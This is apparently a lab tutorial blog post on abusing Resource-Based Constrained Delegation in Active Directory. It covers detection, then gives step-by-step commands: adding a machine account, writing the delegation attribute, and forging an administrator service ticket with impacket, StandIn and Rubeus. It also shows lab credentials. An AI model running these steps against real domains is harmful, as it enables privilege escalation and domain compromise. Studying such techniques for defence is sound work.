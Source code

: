 ```yaml
---
title: 🎟️ Ticket to the Kingdom Kerberos Attack - Resource-Based Constrained Delegation
date: 2025-10-29 01:04:00 +/-TTTT
categories: [Kerberos-Attack]
tags: [Resource-Based-Constrained-Delegation]     # TAG names should always be lowercase
image : /assets/images/rbcdbackground.png
---
```

> Author : lineeralgebra
{:.prompt-tip}

# **RBCD: Resource-Based Constrained Delegation**

**Resource-Based Constrained Delegation (RBCD)** is a feature in Active Directory that allows a **target computer or service** to control which accounts can delegate to it. Unlike classic **Constrained Delegation**, where delegation rights are configured on the **source account**, RBCD shifts the control to the **resource** itself. This makes it more flexible and secure, as the resource decides which users or services can act on behalf of others.

RBCD is commonly abused in Red Team scenarios to **impersonate high-privileged users** by leveraging the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on computer objects. Proper configuration ensures delegation is explicit and auditable.

## RBCD happening why?

Lets talk about first why RBCD happenning and understand whats going on!!

1. Open ADUC
- Run `dsa.msc` on your DC (or a machine with RSAT).
- Make sure **Advanced Features** is enabled in the **View** menu (important, otherwise you won’t see the “Security” tab).

![alt text](../assets/images/kerberos56.png)

2 - Find the Resource and DC

- Navigate to **Domain Controllers OU**.
- Right-click **VALENOR-DC01**, then **Properties**.

3- Check at **Security** tab

- On the user u can go **Advanced**

![alt text](../assets/images/kerberos57.png)

after that page chouse our user at **Permission** tab and click at **Edit**

![alt text](../assets/images/kerberos58.png)

Scroll down and make sure those are selected.

![alt text](../assets/images/kerberos59.png)

Okey now lets check how we can detect and verify our attack first.

## RBCD Detection and Verify

First of all!!! There is way to to detect RBCD and its easy but in this section i wanna show u different approach off course!!!

This is easiest way to detect 

```bash
PS C:\Users\Administrator> Get-ADComputer "VALENOR-DC01" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity | Select-Object -ExpandProperty msDS-AllowedToActOnBehalfOfOtherIdentity

Path Owner                  Access
---- -----                  ------
     BUILTIN\Administrators lab\ldapuser Allow
```

But lets do something more interesting!!!

### Think out of ideas

I will start with **Bloodhound** 

Lets say in this way we owned **ldapsuer** and we found at **bloodhound**

![alt text](../assets/images/kerberos60.png)

and checked it and we saw

![alt text](../assets/images/kerberos61.png)

but if we wanna check with **ADSearch.exe** 

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/ADSearch.exe --search "(&(objectCategory=user)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" --attributes dnshostname,samaccountname,msDS-AllowedToActOnBehalfOfOtherIdentity --json
```

![alt text](../assets/images/kerberos62.png)

we cannot find our user. Here is why;

- **Our user has permission to write on it and we can use it for add computer and add our computer RBCD so we can request TARGET DC ticket**

So it should be frustrating when we are try with manual detection why i choose this way.

OKey so lets move on **ATTACK**

## RBCD Attack - Linux

Lets do with linux abuse first and we will see **BLOODHOUND** show us command but we will go step by step.

### 1.Before add computer we have to sure maq≠0

We can check with

```bash
➜  RBCD nxc ldap VALENOR-DC01.lab.local -u ldapuser -p liverpool -M maq
LDAP        192.168.1.10    389    VALENOR-DC01     [*] Windows 10 / Server 2019 Build 17763 (name:VALENOR-DC01) (domain:lab.local)
LDAP        192.168.1.10    389    VALENOR-DC01     [+] lab.local\ldapuser:liverpool 
MAQ         192.168.1.10    389    VALENOR-DC01     [*] Getting the MachineAccountQuota
```

### 2.Lets add computer

we can add computer with [impacket-addcomputer](https://github.com/fortra/impacket/blob/master/examples/addcomputer.py)

```bash
addcomputer.py 'lab.local/ldapuser:liverpool' -computer-name irem -computer-pass Winter2025! -dc-host VALENOR-DC01.lab.local
```

![alt text](../assets/images/kerberos63.png)

### 3. Now we can try RBCD

We now need to configure the target object so that the attacker-controlled computer can delegate to it. Impacket's `rbcd.py` script can be used for that purpose:

```bash
rbcd.py -delegate-from 'irem$' -delegate-to 'VALENOR-DC01$' -action 'write' 'lab.local/ldapuser:liverpool'
```

![alt text](../assets/images/kerberos64.png)

### 4. Request ticket

Now we gave **irem$** `write` permission cause our user ldapuser has add permission now we can request ticket of Administrator

```bash
getST.py -spn 'cifs/VALENOR-DC01.lab.local' -impersonate 'administrator' 'lab.local/irem$:Winter2025!'
```

![alt text](../assets/images/kerberos65.png)

### 5. We are done

Just need to export it and dump everything

![alt text](../assets/images/kerberos66.png)

## RBCD Attack - Windows(C2)

The reason i check windows part mostly i wanna show u great tool [StandIN.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/StandIn.exe)

https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/StandIn.exe

Lets verify something and do this attack

![alt text](../assets/images/kerberos67.png)

Firs get beacon from our user and

### 1.Before add computer we have to sure maq≠0

we can check with

```bash
powershell-import /home/elliot/tools/PowerView.ps1
powerpick Get-DomainObject -Identity "dc=lab,dc=local" -Domain lab.local
```

![alt text](../assets/images/kerberos68.png)

The quote is set to the default of 10, which is good.

### 2.**Create Fake Computer**

Of course im gonna use [StandIn](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/StandIn.exe)

Command to execute:

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/StandIn.exe --computer EvilComputer --make --Domain lab.local
```

![alt text](../assets/images/kerberos69.png)

it will create with random password.

### 3. Get SID

```bash
powerpick Get-DomainComputer -Identity EvilComputer -Properties objectsid
```

![alt text](../assets/images/kerberos70.png)

### 4. Set RBCD

```bash
powerpick Set-ADComputer VALENOR-DC01 -PrincipalsAllowedToDelegateToAccount EvilComputer$
powerpick Get-ADComputer VALENOR-DC01 -Properties PrincipalsAllowedToDelegateToAccount
```

![alt text](../assets/images/kerberos71.png)

Now to get a S4U hash to impersonate as administrator with Rubeus

### S4U for Administrator

First lets get rc4 hash for our computer

Command to execute:

```bash
execute-assembly /home/elliot/tools/Rubeus.exe hash /password:xryR1RNiOEbaCQ4 /user:EvilComputer$ /domain:VALENOR-DC01.lab.local
```

![alt text](../assets/images/kerberos72.png)

Now lets craete ticket for Administrator.

Command to execute:

```bash
execute-assembly /home/elliot/tools/Rubeus.exe s4u /user:EvilComputer$ /password:xryR1RNiOEbaCQ4 /domain:lab.local /impersonateuser:administrator /rc4:F5618B29262FE3330D10B94266559FA3 /msdsspn:host/VALENOR-DC01.lab.local /nowrap
```

![alt text](../assets/images/kerberos73.png)

and lets convert it to ccache

![alt text](../assets/images/kerberos74.png)

Done!!